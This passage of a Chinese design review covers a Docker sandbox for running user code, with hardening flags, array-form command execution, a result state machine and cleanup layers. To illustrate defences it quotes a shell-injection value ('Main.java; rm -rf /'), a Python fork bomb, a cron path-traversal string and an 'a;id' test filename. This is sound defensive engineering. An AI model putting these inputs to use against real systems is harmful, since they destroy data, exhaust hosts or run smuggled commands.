> - 保存的文件名（目的是为了兼容不同语言的代码文件）
>
> 因此我们可以设计一个**枚举**，在枚举中编写不同语言的语言类型、保存的文件名，以及编译和运行的命令。

### 🔧 精修：抽象方向完全正确，字段缺了四个

"编译命令 / 运行命令 / 文件名"是**最小可用抽象**，思路是对的。
但把这套抽象拿到业务流程里走一遍，就会发现它撑不住：

| 字段 | 原文 | 为什么必需 |
|---|---|---|
| 编译命令 | ✅ | |
| 运行命令 | ✅ | |
| 保存的文件名 | ✅ | |
| **编译超时** | ❌ | C++ 编译和 Python 跑脚本**不是一个量级**。用一个统一的超时，要么误杀 C++，要么让 Python 能跑 30 秒 |
| **运行超时** | ❌ | 同上，而且和编译超时应该是两个独立的值 |
| **内存上限** | ❌ | 安全需求第 1 条就是内存限制，但核心设计里没有它的位置——**这就是"需求和设计脱节"的具体表现** |
| **进程数上限** | ❌ | 防 fork 炸弹。`while True: os.fork()` 能在 1 秒内耗尽宿主机的进程表，这个攻击不占内存、不超时、不越权，只有 pids 限制能挡 |

补全后的配置项（本仓库 `languages.yml` 的实际字段）：

```yaml
java:
  display-name: Java 17          # 展示名
  enabled: true                  # 可开关
  source-file-name: Main.java    # 文件名
  compile-command: [ javac, ... ]# 编译命令（空数组 = 不需要编译）
  run-command: [ java, ... ]     # 运行命令
  compile-timeout-ms: 20000      # ← 新增
  run-timeout-ms: 8000           # ← 新增
  memory-mb: 256                 # ← 新增
  pids-limit: 64                 # ← 新增
```

## 5.2 从"枚举"到"配置文件"

### 📖 原文

> 因此我们可以设计一个**枚举**，在枚举中编写不同语言的语言类型、保存的文件名，以及编译和运行的命令。

### 🔧 精修：枚举的问题不是"不好"，是"改不动"

枚举做这件事在**第一版**是完全可以的，甚至更好——类型安全、IDE 能跳转、改错了编译不过。

问题出在"加一门语言"这个动作的**成本**上：

| | 枚举 | 外部配置（YAML） |
|---|---|---|
| 加一门语言 | 改代码 → 编译 → 打包 → 重启 → 发版 | 改一行配置 → 重启（或热加载） |
| 谁来改 | 必须是开发者 | 运维也能改 |
| 灰度 | 难（要发版） | 容易（先 `enabled: false`，验证完再打开） |
| 不同环境不同配置 | 难 | 天然支持 |
| 校验 | **编译期就能发现错误** ✅ | 要自己写启动校验 ⚠️ |

**关键取舍**：换成配置以后，丢掉了"编译期发现写错"这个好处。
所以**必须把它补回来**——在启动时把所有语言配置校验一遍，配错了直接启动失败。

本仓库的做法（`LanguageRegistry` 构造函数里）：

```java
if (spec.getSourceFileName() == null || spec.getSourceFileName().isBlank()) {
    throw new IllegalStateException(where + " 缺少 source-file-name");
}
// 关键的安全校验：文件名要拼进容器里的路径，绝不能带目录分隔符或 ..
if (fileName.contains("/") || fileName.contains("\\") || fileName.contains("..")
        || fileName.startsWith(".")) {
    throw new IllegalStateException(where + " 的 source-file-name 必须是不含路径的纯文件名");
}
```

> **宁可服务起不来（日志里写得清清楚楚），也不要等用户提交代码了才发现编译命令是空的。**

## 5.3 命令必须用数组，不能拼字符串 ⚠️

### 🔧 精修（原文没提，但这是最容易埋雷的一处）

原文截图里的验证代码是这样写的：

```java
Process process = Runtime.getRuntime().exec("ls -a /usr/local");
```

这行代码有两个问题，**第二个很危险**：

**问题一：按空格切分。** Java 的 `Runtime.exec(String)` 会简单地把字符串按空格切开。
如果路径里有空格（`/opt/my tools/`），它会被切成两个参数，行为完全错乱。

**问题二：如果参数里混进了用户可控的内容，就能注入。**

```java
// 看起来没问题，实际上很危险
exec("javac " + fileName);
// 用户把 fileName 传成 "Main.java; rm -rf /" 会怎样？
```

**正确做法：一律用数组。**

```java
// ✅ 文件名是一个完整的参数，不经过任何解析
exec(new String[]{"javac", "-encoding", "UTF-8", "-d", ".", fileName});
```

这条规则在**我们这层（Java 调 Docker）和 Docker 那层（容器里执行）都适用**：

| ❌ 不要这样 | ✅ 要这样 |
|---|---|
| `docker exec c sh -c "javac Main.java"` | `docker exec c javac Main.java` |
| `new String[]{"sh", "-c", "javac " + file}` | `new String[]{"javac", file}` |

**差别在哪？** 数组形式下，Docker 直接把参数交给操作系统的 `execve`，
**中间没有 shell**。没有 shell 就没有"解析"，没有解析就没有注入——
`;`、`&&`、`$()`、反引号全部退化成普通字符。

本仓库的落实（`DockerCodeRunner.execPhase`）：

```java
docker.execCreateCmd(containerId)
        .withCmd(command.toArray(new String[0]))   // ← 数组，不是拼好的字符串
        .withAttachStdout(true)
        ...
```

同时，代码**在没有 shell 的路径上写进容器**：文件名由服务端从配置里取（不是用户传的），
内容用 base64 参数传递，全程不经过字符串拼接。

## 5.4 结果模型：一个状态机，不是"成功或失败"

### 📖 原文

> 2. 返回运行结果或者相关错误信息。

### 🔧 精修：用户需要知道的不是"失败了"，而是"怎么失败的"

"运行结果或错误信息"这句话，落到实现上会变成这样：

```java
// 常见的偷懒写法
return new Result(exitCode == 0, output);
```

问题在于，用户拿到 `success = false` 之后完全不知道该改什么。
**不同失败原因的修法完全不同**：

| 状态 | 用户该做什么 | 该看哪个字段 |
|---|---|---|
| `COMPILE_ERROR` | 改语法 / 改类型 | `compileOutput` |
| `RUNTIME_ERROR` | 改逻辑 / 看异常栈 | `stderr` |
| `TIMEOUT` | 看是不是死循环，或者申请更大配额 | `message` |
| `OUT_OF_MEMORY` | 看是不是数据量太大，或者申请更大配额 | `message` |
| `DRY_RUN` | 这次没有真正执行 | `stdout`（里面是渲染好的命令） |

所以结果模型应该是一个**带状态的结果**，而不是一个布尔值：

```java
public record ExecutionResponse(
        String jobId,            // 这次执行的 id，排查问题时用它去捞容器
        String language,
        ExecutionStatus status,  // ← 状态机
        boolean success,
        Integer exitCode,
        String stdout,           // 运行阶段输出
        String stderr,
        String compileOutput,    // 编译阶段输出（单独一份）
        boolean truncated,       // 输出被截断过
        boolean timedOut,
        long durationMs,
        String message) { }
```

两个容易被忽略的字段：

- **`compileOutput` 必须和 `stdout`/`stderr` 分开**。混在一起的话，
  用户看到一坨编译错误加运行输出，分不清哪句是自己程序的输出。
- **`truncated` 必须显式返回**。输出被截断而用户不知道，
  他会以为自己程序的输出就这么多——这比报错更糟。

## 5.5 安全设计：容器加固清单 ★

> **这一节是全文最重要的部分**，也是原文"安全需求三条"唯一能落地的形式。
> 需求写在文档里不会自动生效，只有变成创建容器时的一行行参数才算数。

每一项都不是可选项，逐条对应一类真实攻击：

| # | 加固项 | 具体配置 | 挡住什么 | 不加会怎样 |
|---|---|---|---|---|
| 1 | **断网** | `--network none` | SSRF 扫内网、外传数据、挖矿、当代理 | 用户代码能直接访问你的内网服务，甚至云元数据接口 |
| 2 | **不泄露宿主机 DNS** | `--dns 127.0.0.1` | 用户代码读到宿主机的内部 DNS 地址 | 断网后 Docker 仍会写入宿主机 nameserver，一条不起眼但真实的信息泄露 |
| 3 | **根文件系统只读** | `--read-only` | 改 `/etc`、装后门、写 crontab | 容器内可持久化恶意文件（同一容器被复用时更危险） |
| 4 | **只给内存盘** | `--tmpfs /workspace`<br>`--tmpfs /tmp` | 磁盘写满 | 用户 `while True: open(...)` 把宿主机磁盘写满 |
| 5 | **非 root** | `--user 10001:10001` | 大多数提权路径 | 容器内 root + 内核漏洞 = 宿主机 root |
| 6 | **丢全部 capability** | `--cap-drop ALL` | 挂载、改网络、改时间、加载内核模块 | 默认就带着十几种特权 |
| 7 | **禁止提权** | `--security-opt no-new-privileges` | setuid 二进制提权 | 镜像里任何 setuid 程序都成了后门 |
| 8 | **内存上限 + 禁 swap** | `--memory 128m --memory-swap 128m` | 惨案一 | 超限变成"慢得要死"而不是"被杀"，反而更难发现 |
| 9 | **CPU 上限** | `--cpus 1` | 挖矿 | 一个请求能吃满你所有核 |
| 10 | **进程数上限** | `--pids-limit 32` | fork 炸弹 | 1 秒内耗尽宿主机进程表 |
| 11 | **ulimit** | `nofile` / `nproc` / `fsize` | 句柄耗尽、大文件写爆 | 多一层兜底 |
| 12 | **输出截断** | 应用层 64KB | 打爆执行器内存 | 惨案五：唯一能直接杀死执行器的攻击 |
| 13 | **保命时长** | `sh -c "sleep N"` | 执行器崩溃后容器永久泄漏 | 一夜之间内存被僵尸容器吃光 |
| 14 | **定时回收** | 扫 `managed=true` 标签 | 上面兜底失败的情况 | 同上 |
| 15 | **不用 `--rm`** | `autoRemove=false` | —— | ⚠️ 见下 |

### ⚠️ 第 15 条值得单独说：为什么不能用 `--rm`

`--rm` 看起来是"自动清理，多方便"。但它会让容器**一退出就消失**，
于是你就**没法再 `inspect` 它**——也就无法回答这个问题：

> 这次是超时被杀，还是内存超限被杀？

这两个状态对用户的意义**完全不同**：一个该去查死循环，一个该去查数据量。
而它们从退出码上看几乎一样（都是 137 / SIGKILL）。

所以正确的做法是：**容器留着，先问清楚死因，再显式删掉。**

### 关于"权限控制会不会误伤"的取舍

这是调研里发现的行业难点（见 [3.3](#33-调研总结)）。本项目的取舍是：

| 能力 | v1 是否开放 | 理由 |
|---|---|---|
| 读写工作目录 | ✅ 开放（内存盘） | 绝大多数代码都需要，且退房即消失，风险可控 |
| 写 `/tmp` | ✅ 开放（内存盘） | JVM、Python 都需要临时目录 |
| 联网 | ❌ 关闭 | 收益极低，风险极高 |
| 读系统文件 | ⚠️ 部分（只读根文件系统仍然可读） | **已知不足，见第 10 章** |
| 装依赖（pip/npm install） | ❌ 关闭 | 需要联网 + 写系统目录，两者都已经关掉 |
| 多文件 | ❌ 关闭 | v1 只接受单文件 |

## 5.6 并发与配额

### 🔧 精修（原文没提）

原文的安全需求只考虑了"单个请求有多坏"，没有考虑"**很多个请求一起有多坏**"。

**限流策略：拿不到就拒绝，不排队。**

```
并发上限 4：
  请求 1~4  → 正常执行
  请求 5    → 立刻返回 429 "执行器并发已满，请稍后重试"
```

**为什么不排队？** 因为排队会让延迟变得**不可预测**：
同一段代码，空闲时 1 秒返回，繁忙时 30 秒返回。
而这种接口通常是被别的服务调用的——调用方更需要"快速失败然后重试"，
而不是"挂在那里慢慢等"。

真要排队，应该由**调用方**用消息队列自己做，那样重试、优先级、超时都更好控制。

## 5.7 失败与清理

### 🔧 精修（原文的流程里没有失败路径）

原文的业务流程是一路顺到底的：写文件 → 建容器 → 复制 → 编译 → 运行 → 返回 → 清理。
但**第 5 步或第 6 步抛异常**的时候会怎样？第 8 步根本不会执行，容器就留在那儿了。

清理必须做成**三层防御**：

| 层 | 机制 | 覆盖的场景 |
|---|---|---|
| 第一层 | `try / finally` 显式删容器 | 正常路径 + 业务异常 |
| 第二层 | 容器自带"保命时长" | 执行器进程被 `kill -9`、断电 |
| 第三层 | 定时扫标签回收 | 上面两层都失效（比如删除请求本身失败） |

第二层值得展开说，因为它不常见但很巧妙：

```java
// 容器的常驻命令不是 sleep infinity，而是一个有上限的值
int seconds = spec.totalTimeoutMs() / 1000 + properties.getContainerLifetimeSlackSeconds();
return "sleep " + seconds;
```

容器创建时按"编译超时 + 运行超时 + 30 秒余量"睡一觉。
正常流程里执行器会提前把它删掉；但如果执行器自己死了，
**容器最多多活几十秒就会自己退出**，不会永久占着内存。

---

# 第 6 章 · 业务流程

## 📖 原文

> 1. 用户输入代码。
> 2. 后端服务将代码写入到宿主机的临时文件中。
> 3. 后端服务启动一个 docker 容器。
> 4. 后端服务将临时的代码文件复制到容器中。
> 5. 后端服务利用容器执行编译代码的命令。
> 6. 后端服务利用容器执行运行代码的命令。
> 7. 后端服务返回执行结果。
> 8. 后端服务清理临时文件以及 docker 容器。

原文的时序图：



## 🔧 精修：8 步压到 6 步，去掉"宿主机临时文件"

**改动只有一处，但消掉了两类问题：把第 2 步和第 8 步的"临时文件"整个拿掉。**

| 步骤 | 原文 | 精修 | 变化 |
|---|---|---|---|
| 1 | 用户输入代码 | 用户输入代码 | 不变 |
| 2 | ~~写入宿主机临时文件~~ | —— | **删除** |
| 3 | 启动 docker 容器 | 创建容器并启动 | 不变 |
| 4 | 把临时文件复制进容器 | **把代码直接"喂"进容器的工作目录** | 改造 |
| 5 | 执行编译命令 | 执行编译命令（失败则不运行） | 加判断 |
| 6 | 执行运行命令 | 执行运行命令 | 不变 |
| 7 | 返回执行结果 | 返回结构化结果 | 加强 |
| 8 | ~~清理临时文件及容器~~ | 清理容器（`finally`） | 简化 |

### 为什么去掉宿主机临时文件？它看起来挺无害的

因为它同时带来三个问题，而**收益是零**：

| 问题 | 具体场景 |
|---|---|
| **路径穿越** | 步骤 2 要拼一个文件路径。如果文件名有任何一部分来自用户或前端，`../../etc/cron.d/backdoor` 就能写到工作目录外面去 |
| **清理残留** | 步骤 8 是流程的最后一步。前面任何一步抛异常，它都不会执行——每崩一次就多一个垃圾文件，磁盘慢慢被填满 |
| **多一次磁盘 IO** | 写盘 → 再读出来打包 → 送进容器。而这一步的产物（那个临时文件）**从头到尾没有任何人需要** |

**改造后**：代码从内存直接进容器的工作目录，宿主机磁盘上**从头到尾没有出现过用户代码**——
路径穿越无从谈起，残留无从谈起。

至于"怎么喂进去"，这里有一段真实的踩坑记录，值得完整写下来，
因为它说明了一件事：**设计方案在纸上成立，不等于在真实环境里成立**。

#### 踩坑记录：三种"喂代码"的方式，前两种都不行

**方案 A：`docker cp`（原本的设计）——被 `--read-only` 直接拒绝**

```
Status 400: {"message":"container rootfs is marked read-only"}
```

原因很有意思：`docker cp` **不是**通过容器的挂载命名空间写的，
而是 Docker 守护进程按"rootfs 里的某个路径"去写的。
守护进程眼里的 rootfs 是那个只读的镜像层，
**它根本看不到容器内部挂的 tmpfs**——所以工作目录明明是可写的，它照样被拒绝。

> 这个坑的教训：`docker cp` 和 `docker exec` 看起来都是"操作容器里的文件"，
> 但它们走的根本是两条路。前者是守护进程视角，后者是容器视角。

**方案 B：`docker exec` 的 stdin——docker-java 里会死等**

既然要用容器视角，那用 `docker exec -i` 把代码从标准输入喂给 `cat > 文件` 是最自然的。
但 docker-java 的 `ExecStartCmd.withStdIn(...)` 配合 `awaitCompletion(...)` **会一直挂住**：
stdin 写完之后 `cat` 等不到 EOF，两边互相等，每次都只能等满超时才失败。

**方案 C：base64 走参数（最终采用）**

```java
// 脚本是写死的常量；源码以 base64 作为 $1；文件名作为 $2
List.of("sh", "-c", "printf %s \"$1\" | base64 -d > \"$2\"", "sh", base64Content, fileName)
```

为什么这样是安全的？**三个东西各走各的通道，谁也污染不了谁**：

| 内容 | 走哪个通道 | 为什么安全 |
|---|---|---|
| 脚本 | 常量字符串 | 里面没有任何拼接 |
| 源码 | `$1`，base64 编码 | base64 字母表只有 `A-Za-z0-9+/=`，**不含任何 shell 元字符** |
| 文件名 | `$2` | 配置加载时就校验过（不含 `/` `\` `..`） |

**实测验证**：把 `/workspace/a;id` 当文件名传进去，
结果是创建了一个**名字叫 `a;id` 的文件**，而不是执行了 `id` 命令。

> **代价**：源码要 base64 编码，体积膨胀 1/3，而 Linux 单个命令行参数上限是 128 KiB。
> 所以代码上限（默认 64 KiB）不能随便调大——编码后约 87 KiB，已经在安全边界内。

### 精修后的完整流程



---

# 第 7 章 · 接口契约（新增）

> 原文定位是 starter，但没有定义对外契约。这一章补上。

## 7.1 执行

```
POST /api/v1/executions
Content-Type: application/json

{
  "language": "python",
  "code": "print(1 + 1)"
}
```

**响应**

```json
{
  "jobId": "63ceae09-f0fa-4562-aed1-bd8cb277175a",
  "language": "python",
  "status": "SUCCESS",
  "success": true,
  "exitCode": 0,
  "stdout": "2\n",
  "stderr": "",
  "compileOutput": null,
  "truncated": false,
  "timedOut": false,
  "durationMs": 1204,
  "message": "运行成功"
}
```

## 7.2 状态码约定

**只要执行本身完成了就返回 `200`** —— 哪怕用户代码编译失败、超时、被 OOM 杀掉。
这些都是"正常结果"，写在响应体的 `status` 里。

这样调用方**只需要解析一套语义**：HTTP 状态码回答"我的请求有没有被受理"，
`status` 字段回答"我的代码跑得怎么样"。

| HTTP | 场景 | 调用方该怎么办 |
|---|---|---|
| `200` | 已执行（结果看好坏看 `status`） | 解析 `status` |
| `400` | 语言不支持 / 代码为空 / 超长 / JSON 格式错 | 修请求，别重试 |
| `429` | 并发已满 | 退避后重试 |
| `503` | Docker 连不上 / 镜像没构建 | 告警，别重试 |

## 7.3 查询语言

```
GET /api/v1/languages
```

```json
[
  {
    "id": "java",
    "displayName": "Java 17",
    "sourceFileName": "Main.java",
    "needsCompile": true,
    "compileTimeoutMs": 20000,
    "runTimeoutMs": 8000,
    "memoryMb": 256,
    "pidsLimit": 64
  }
]
```

> 注意这里**没有返回 `compileCommand` / `runCommand`**。
> 容器内部的命令属于实现细节，暴露出去只会给攻击者提供信息。

---

# 第 8 章 · 对原设计的逐条评审

| # | 原文的说法 | 问题 | 建议 | 严重度 |
|---|---|---|---|---|
| 1 | 安全需求只有内存/时间/权限三条 | 漏了**网络限制**和**输出限制**。原文甚至描述了"通过网络上传文件"的后果，却没把它列成需求 | 补成 5 条，见 [2.2](#22-安全需求) | 🔴 高 |
| 2 | 核心设计只抽象了编译命令/运行命令/文件名 | **安全需求在核心设计里完全消失**。照这个设计做出来，就是一个"又一个菜鸟教程"——而原文刚批评过这一点 | 把加固清单写进设计，见 [5.5](#55-安全设计容器加固清单-) | 🔴 高 |
| 3 | 业务流程 8 步，全是正常路径 | 第 5、6 步一抛异常，容器永久泄漏。一次 `kill -9` 能留下几十个各占 128MB 的僵尸容器 | 三层清理防御，见 [5.7](#57-失败与清理) | 🔴 高 |
| 4 | 写宿主机临时文件再复制进容器 | 路径穿越 + 异常残留 + 多余磁盘 IO，而收益为零 | 改成直接写进容器，8 步压到 6 步，见 [第 6 章](#第-6-章--业务流程) | 🟠 中 |
| 5 | "构建一个尽量大而全的镜像" | 体积、攻击面、启动速度三输 | 改成镜像分层 + 按需，见 [第 4 章](#第-4-章--技术选型) | 🟠 中 |
| 6 | 用**枚举**硬编码语言 | 加一门语言要改代码、编译、发版。和"starter"的定位冲突 | 外置成配置 + 启动时校验，见 [5.2](#52-从枚举到配置文件) | 🟠 中 |
| 7 | 命令以字符串形式拼接（截图里的 `exec("ls -a /usr/local")`） | 按空格切分（路径带空格就错）+ 潜在的参数注入 | 一律用数组，见 [5.3](#53-命令必须用数组不能拼字符串-) | 🟠 中 |
| 8 | "返回运行结果或者相关错误信息" | 分不清编译错/运行错/超时/OOM，用户不知道该怎么改 | 引入状态机 + 独立 `compileOutput` + `truncated`，见 [5.4](#54-结果模型一个状态机不是成功或失败) | 🟠 中 |
| 9 | 定位为 starter，但没有鉴权/配额/可观测 | 接进来的第一个业务就能把执行器打挂 | 见[第 7 章](#第-7-章--接口契约新增)与[第 9 章](#第-9-章--实施路线图) | 🟠 中 |
| 10 | TypeScript 和 JavaScript 并列 | TS 需要编译步骤，超时和错误分类都不同 | 单独配置，见 [2.1](#-精修-2typescript-不是又一个-javascript) | 🟡 低 |
| 11 | 用 TIOBE 排行榜决定语言范围 | 合理起点，但它回答的是"世界上什么语言流行"，不是"我的调用方要什么" | 按调用方需求裁剪，v1 只做两端各一门 | 🟡 低 |
| 12 | 竞品调研不含 Judge0 | 漏了这个领域最主流的开源实现 | 补上，见 [3.2](#-精修调研的三处缺口) | 🟡 低 |
| 13 | 调研没有"资源清理"这一列 | 恰恰是这类服务最容易在生产上出事的地方 | 每份调研补一列 | 🟡 低 |

**整体评价**：

- **需求梳理：中上。** 竞品调研尤其出色——作者不是查资料，而是**真实测**出了
  菜鸟教程可以 `ls`、可以 `cat` 自己的源码。这是整份文档里最有说服力的部分。
- **设计深度：偏浅。** 停在"能跑通"的层面。安全和性能两块都只提了名词，没落到设计里。
  第 2 条（需求提了、设计里没有）是最典型的症状。
- **一句话总结**：这份文档把"**做什么**"讲清楚了，
  但把"**怎么才安全**"和"**怎么才快**"推迟了——而这两件事恰恰是这个项目唯一的技术壁垒。

---

# 第 9 章 · 实施路线图

## M0 · 最小可用闭环 ✅（本仓库已完成）

- [x] SpringBoot + docker-java + 单容器隔离
- [x] Java / Python / JavaScript 三种语言，配置外置
- [x] 全部 15 项加固（断网、不泄露 DNS、只读、非 root、丢特权、内存/CPU/pids/ulimit、超时、输出截断……）
- [x] 结构化结果 + 编译错/运行错分离
- [x] 并发限制（429 快速失败）
- [x] 三层清理防御（finally + 保命时长 + 定时回收）
- [x] 演练模式（无 Docker 也能跑通全流程）
- [x] 31 个自动化测试 + 28 项真实容器端到端断言

## M1 · 性能与体验

- [ ] **容器池 / 预热**——当前最大的性能瓶颈是容器冷启动（几百毫秒到几秒）
- [ ] **异步任务接口**——`POST` 返回 `taskId`，`GET` 轮询或 webhook 回调
- [ ] **stdin 支持**——很多判题场景需要
- [ ] **多文件提交**——Java 多类、C 多文件
- [ ] **编译结果缓存**——同样的代码不重复编译（Judge0 性能好的主要原因）

## M2 · 生产化

- [ ] **鉴权**（API Key / OAuth）
- [ ] **配额**（每个调用方每天多少次 / 多少 CPU 秒）
- [ ] **可观测**——每次执行的 metric（语言、耗时、状态、被杀原因）
- [ ] **seccomp 自定义 profile**——当前用的是 Docker 默认的，不够严
- [ ] **独立节点部署**——执行器和主业务、数据库必须物理隔离

## M3 · 更强的隔离

- [ ] **gVisor / Kata Containers**——在容器之上再套一层内核隔离
- [ ] **多节点调度**——执行器本身也要能横向扩展

---

# 第 10 章 · 本文与实现的已知不足

一份文档如果只写优点，就没有可信度。以下是**明确知道还没做好**的地方：

## 关于实现（本仓库）

| # | 不足 | 影响 | 什么时候补 |
|---|---|---|---|
| 1 | **没有鉴权**，任何人都能调 | 只能内网用，绝不能直接暴露公网 | M2 |
| 2 | **不做排队**，并发满了直接 429 | 突发流量下调用方会收到较多 429 | 设计如此，非缺陷 |
| 3 | **同步接口** | 编译型语言慢的时候，调用方要一直等着 | M1 |
| 4 | **每请求一个容器**，冷启动开销实在 | 吞吐受限，单机 QPS 有限 | M1 |
| 5 | **seccomp 用的是 Docker 默认 profile** | 系统调用层面的防护比自定义 profile 弱 | M2 |
| 6 | **只读根文件系统仍然可读系统文件** | 用户代码能读到镜像里的 `/etc/passwd` 等——**数据出不去（断网），但信息会被看到** | M2（可用更精简的基础镜像缓解） |
| 7 | **不支持 stdin / 多文件 / 自定义参数** | 判题场景受限 | M1 |
| 8 | **没有做压测** | 并发上限 4 是拍脑袋定的，没有数据支撑 | M1 |
| 9 | **单机 Docker，无编排** | 执行器和 Docker 在同一台机器上，隔离性弱于独立节点 | M2 |

## 关于本文

| # | 不足 |
|---|---|
| 1 | 只覆盖了"需求分析和设计"，不含编码细节、部署、运维 |
| 2 | 性能数字（冷启动耗时、QPS）都是经验估计，**没有在真实环境实测** |
| 3 | 对 gVisor / Kata 只做了概念性对比，没有实测数据 |
| 4 | 第 3 章的竞品调研基于截图内容，**没有对 Judge0 做实际代码级分析** |

## 关于验证（诚实说明）

**本项目的验证边界**：

- ✅ **编译通过**，31 个单元/集成测试全部通过
- ✅ **接口链路实跑通过**（演练模式下用 curl 验证了完整 HTTP 流程、错误码、UTF-8 编码）
- ✅ **沙箱参数有测试覆盖**（加固项逐条断言，防止以后被"顺手简化"）
- ✅ **容器内真实执行已跑通**：28 项端到端断言全部通过，覆盖三种语言、五种错误分类、
  八项安全回归、两层清理机制（详见 [测试报告](05-测试报告.md)）

**但下面这些仍然是没验证过的，必须说清楚**：

- ❌ **没有压测**。并发上限 4 是拍脑袋定的，没有数字支撑；单机 QPS 未知
- ❌ **没有在多节点 / Linux 宿主机上验证**。本次验证是在 Windows + Docker Desktop 上做的，
  Linux 上的 seccomp 行为、cgroup v1/v2 差异都没有覆盖
- ❌ **没有做真实攻击测试**。断网、只读、丢特权这些都验证了"按预期生效"，
  但没有尝试过内核漏洞利用、容器逃逸这类真正的对抗
- ❌ **没有长时间运行验证**。孤儿容器回收验证了一轮，但没有跑过"连续 24 小时"的泄漏检查

### 最有价值的一条经验

**纸上成立的设计，在真实环境里未必成立。**

第 6 章记录的那三个坑（`docker cp` 被只读根文件系统拒绝、
docker-java 的 exec stdin 死等、DNS 解析耗光超时），
**没有一个是靠读文档或写单元测试能发现的**——
它们只在"真的建一个容器、真的把代码放进去、真的跑一遍"的时候才暴露出来。

这也是为什么"代码写完了"和"项目做完了"是两件事：
写代码大概只占一半工作量，另一半是拿真实环境把坑挖出来填掉。

---

# 附录 A · 术语表

| 术语 | 一句话解释 | 类比 |
|---|---|---|
| **镜像** image | 只读模板，预装好系统和工具 | 样板间图纸 + 家具清单 |
| **容器** container | 镜像跑起来的实例 | 按图纸搭出来的那间房 |
| **宿主机** host | 跑 Docker 的服务器 | 整个小区 |
| **Docker daemon** | 管理容器的后台服务 | 物业管理处 |
| **docker exec** | 在运行中的容器里执行一条命令 | 敲门进去办事 |
| **docker cp** | 在宿主机和容器之间复制文件（⚠️ 走守护进程视角，看不到容器内的 tmpfs） | 从门缝递东西进去 |
| **base64** | 把任意字节编码成只含 `A-Za-z0-9+/=` 的文本，可以安全地放进命令行参数 | 把东西装进标准集装箱，怎么搬都不会洒 |
| **tmpfs** | 内存里的临时盘，容器一停就消失 | 房间里的白板 |
| **只读根文件系统** | 系统盘不能写 | 墙和家具都焊死 |
| **capability** | Linux 的细粒度特权 | 一串钥匙，每把开一扇门 |
| **cap-drop ALL** | 丢弃全部特权 | 把所有钥匙都收走 |
| **seccomp** | 限制进程能调用哪些系统调用 | 只准用房间里的电话打内线 |
| **OOM** | Out Of Memory，内存超限被杀 | 煤气罐爆了，自动断气 |
| **OOMKilled** | 容器被内核因内存超限杀掉的标记 | 断气阀上的记录 |
| **pids limit** | 容器内最大进程/线程数 | 房间里最多能进几个人 |
| **fork 炸弹** | 一个进程不断自我复制，瞬间耗尽进程表 | 一个人不断分身，直到挤爆房间 |
| **孤儿容器** | 没被正常删除的容器 | 退房时人跑了，房间还占着 |
| **镜像层** layer | 镜像是一层层叠出来的，可复用 | 装修分几次做，前面几次能复用 |
| **base64** | 把任意字节编码成只含 `A-Za-z0-9+/=` 的文本，可以安全地放进命令行参数 | 把东西装进标准集装箱，怎么搬都不会洒 |
| **starter** | 能被别的服务接入的基础组件 | 一个插座，别人插上就能用 |
| **SSRF** | 诱导服务器去访问内网地址 | 骗前台帮你把内部文件拿出来 |

---

# 附录 B · 本仓库的实现映射

本文的每一条设计，在代码里的落点：

| 设计 | 代码位置 |
|---|---|
| 容器加固 15 项 | [`core/SandboxPolicy.java`](../src/main/java/com/chenchen/codeexecutor/core/SandboxPolicy.java) |
| 执行主流程 | [`core/DockerCodeRunner.java`](../src/main/java/com/chenchen/codeexecutor/core/DockerCodeRunner.java) |
| 命令数组化 + 超时 | `DockerCodeRunner.execPhase()` |
| 输出截断 | [`core/BoundedOutputStream.java`](../src/main/java/com/chenchen/codeexecutor/core/BoundedOutputStream.java) |
| 保命时长 | `SandboxPolicy.keepAliveCommand()` |
| 孤儿容器回收 | [`core/ContainerReaper.java`](../src/main/java/com/chenchen/codeexecutor/core/ContainerReaper.java) |
| 语言配置外置 | [`src/main/resources/languages.yml`](../src/main/resources/languages.yml) |
| 配置启动校验 | [`language/LanguageRegistry.java`](../src/main/java/com/chenchen/codeexecutor/language/LanguageRegistry.java) |
| 结果状态机 | [`model/ExecutionStatus.java`](../src/main/java/com/chenchen/codeexecutor/model/ExecutionStatus.java) |
| 并发限制 | [`core/ExecutionService.java`](../src/main/java/com/chenchen/codeexecutor/core/ExecutionService.java) |
| 接口契约 | [`web/ExecutionController.java`](../src/main/java/com/chenchen/codeexecutor/web/ExecutionController.java) |
| 镜像分层 | [`Dockerfile`](../Dockerfile) |
| 演练模式 | [`core/DryRunCodeRunner.java`](../src/main/java/com/chenchen/codeexecutor/core/DryRunCodeRunner.java) |
